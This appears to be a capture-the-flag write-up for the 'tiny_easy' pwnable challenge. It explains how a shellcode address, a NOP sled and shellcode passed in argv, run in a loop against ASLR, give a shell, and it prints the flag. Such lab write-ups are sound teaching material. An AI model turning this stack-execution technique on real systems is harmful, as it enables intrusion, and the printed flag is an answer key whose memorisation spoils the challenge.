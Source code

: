 # Tiny Easy

```
I made a pretty difficult pwn task.
However I also made a dumb rookie mistake and made it too easy :(
This is based on real event :) enjoy.
```

```
tiny_easy@pwnable:~$ ls
flag  tiny_easy
tiny_easy@pwnable:~$ ./tiny_easy
Segmentation fault (core dumped)
```

When running the code, we get coredump right at the beginning (yay).


## Binary Information

```
$ file tiny_easy
tiny_easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, no section header

$ checksec tiny_easy
[*] '/ctfs/pwnable/tiny_easy/tiny_easy'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

## What does the binary do

Well, not much:

```
void entry(code **param_1)

{
  (**param_1)();
                    /* WARNING: Bad instruction - Truncating control flow here */
  halt_baddata();
}

```

## How to exploit

We could just get a insert a shellcode by argv.
All we need to do is pass the following payload:
`<shellcode_address><shellcode>`

and that's it.

By setting a breakpoint at `0x8048056` on the remote GDB we find:

Since ASLR is enabled, each time this address will be randomized.
so, in order to bypass it, we can just build our payload as follows:

```
<address><plenty_of_nops><shellcode>
```


This way, we increase the chance that the address will be at one of the nops.
Then it will just run until it reaches the shell code.


The code that runs the binary with the payload is in `run_with_payload.c`


## Pwned

```
tiny_easy@pwnable:~$ while true; do /tmp/fu/call_binary ; done
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
...
Segmentation fault (core dumped)
$ ls
flag  tiny_easy
$ cat flag
What a tiny task :) good job!
```
